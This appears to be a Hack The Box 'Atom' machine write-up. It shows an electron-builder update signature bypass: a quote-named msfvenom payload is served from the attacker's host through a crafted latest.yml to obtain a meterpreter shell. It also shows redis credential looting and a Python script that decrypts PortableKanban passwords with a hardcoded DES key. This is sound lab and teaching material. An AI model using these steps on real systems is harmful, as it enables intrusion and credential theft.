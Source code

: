 <h1 align="center"> HTB Atom - Writeup - May 8 2021</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

Hello All! Its me **mercer98** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!


### ENUMERATION

We kick it off w a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

![Image](images/atom1.png)

A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

![Image](images/atom2.png)

We start off by checking port 80:
We find a possible uname at th end of the pg : __MrR3boot@atom.htb__

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

![Image](images/atom7.png)

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

![Image](images/atom3.png)

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

![Image](images/atom4.png)

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

![Image](images/atom5.png)

![Image](images/atom6.png)



### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

![Image](images/atom8.png)

I renamed the file to d'payload.exe

![Image](images/atom10.png)

- Calculate the hash using the prescribed syntax : 

![Image](images/atom9.png)

- Setup a listener on msfconsole to catch your shell using multi/handler.

- generate the latest.yml file update: Replace the path and the hash.
```
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using 
`sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

![Image](images/atom11.png)

Congrats We now have a reverse shell. 

A getuid command shows we are ATOM\jason
Great!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!



### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

![Image](images/atom12.png)

Run it...

Details found :

- jasons creds :
![Image](images/atom13.jpg)
Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

![Image](images/atom17.png)


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

![Image](images/atom14.png)

We found the pass for redis. 

![Image](images/atom15.jpg)




**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:
`redis -h 10.10.10.237`

- Authenticate using the password:
`auth pass`

- Retrive info on the keyspace using:
`info keyspace`

- We see that there is one db - number 0 which has 4 keys.
View the keys by:
`keys *`

- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:
`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`

![Image](images/atom16.jpg)


- we now have the administrator hash ! Hurray!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

![Image](images/atom18.png)

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:
```
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

![Image](images/atom20.jpg)


We now finally have the password of admin. 

Lets try winrm again using these creds.... 


![Image](images/atom19.jpg)

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

### Bookmark to recieve the latest writeups!






